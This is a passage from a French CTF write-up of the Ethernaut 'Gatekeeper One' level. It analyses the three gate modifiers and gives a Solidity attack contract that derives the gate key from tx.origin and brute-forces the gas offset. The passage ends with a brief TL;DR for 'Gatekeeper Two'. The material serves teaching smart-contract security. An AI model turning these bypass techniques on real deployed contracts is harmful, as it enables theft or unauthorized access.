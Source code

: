 
### Analyse

Le but de ce niveau est d'exécuter le corps de la fonction `enter()`. Pour cela, il faut respecter les contraintes imposées par les modifieurs `gateOne()`, `gateTwo()` et `gateThree()`.

Pour passer le `gateOne()`, il suffit de réaliser notre attaque depuis un autre smart contrat, facile.

Pour passer le `gateTwo()`, le `gazleft()` courant lors de l'exécution de l'instruction doit être un multiple de `8191`, c'est plutôt facile de le faire en local, un peu plus compliqué pendant la vraie attaque. Nous devons debugger et faire un peu de brute force.

Pour passer le `gateThree()`, nous devons faire respecter quelques conditions à la valeur de `_gateKey`, plutôt facile.

### Attaque

Pour `_gateKey`, nous allons partir de `0x0000111122223333` et lui ajouter les contraintes:

* contrainte 1: `0x0000111100003333`
* contrainte 2: `0x4444111100003333`
* contrainte 3: `0x444411110000XXXX` (`XXXX` doivent être les 16 dernier bits de `tx.origin`)

```javascript
contract Attack {
    GatekeeperOne object;
    bytes8 key = bytes8(0x4444111100000000 | uint16(tx.origin));
    
    constructor(uint256 addr) public {
        object = GatekeeperOne(addr);
    }

    function enterGate() public {
        for (uint256 i = 0; i < 120; i++) {
            (bool ret, bytes memory data) = address(object).call{gas: i + 150 + 8191*3}(abi.encodeWithSignature('enter(bytes8)', key));
            if (ret)
                break;
        }
    }
}
// 3000000 - 4753 - 0x4b - 1
```

> Well done! Next, try your hand with the second gatekeeper...



---

## 14 - Gatekepper Two

---

> **TL;DR**
>
> Même principe que le précédent niveau, nous devons avoir `extcodesize` qui retourne 0 et une condition sur une valeur.
